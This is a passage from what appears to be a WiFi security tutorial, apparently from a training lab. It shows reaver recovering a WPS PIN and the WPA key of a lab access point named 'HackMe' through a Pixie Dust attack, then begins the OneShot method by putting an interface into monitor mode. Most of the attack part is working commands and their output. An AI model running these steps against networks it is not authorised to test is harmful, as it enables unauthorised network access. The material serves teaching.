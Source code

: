 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  32552273

 [*] Time taken: 0 s 34 ms
</code></pre>
<p>The Pixie Dust attack was successful, and the PIN <code>32552273</code> was recovered. We can subsequently use this PIN to obtain the PSK (Pre-Shared Key) for the WiFi network.</p>
<pre><code class="language-shell-session">[!bash!]$ reaver -b 86:FC:9F:5D:67:4E -c 1 -p 32552273 -i mon0

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="a0c3c8c5c6c6cec5d2e0d4c1c3cec5d4d3cfcc8ec3cfcd" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 86:FC:9F:5D:67:4E
[+] Received beacon from 86:FC:9F:5D:67:4E
[!] Found packet with bad FCS, skipping...
[+] Associated with 86:FC:9F:5D:67:4E (ESSID: HackMe)
[+] WPS PIN: '32552273'
[+] WPA PSK: '&lt;SNIP&gt;'
[+] AP SSID: 'HackMe'
</code></pre>
<hr/>
<h3>Using Oneshot</h3>
<p>To perform a Pixie Dust attack using <a href="https://github.com/fulvius31/OneShot/tree/master">OneShot</a>, we again require our interface to be in monitor mode. However, before proceeding, we should delete the previously configured <code>mon0</code> interface.</p>
<pre><code class="language-shell-session">[!bash!]$ iw dev mon0 del
[!bash!]$ iwconfig

eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
</code></pre>
<p>Now, we can use <code>airmon-ng</code> to set our <code>wlan0</code> interface into monitor mode.</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng start wlan0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    182 avahi-daemon
    198 wpa_supplicant
    213 avahi-daemon
    220 NetworkManager
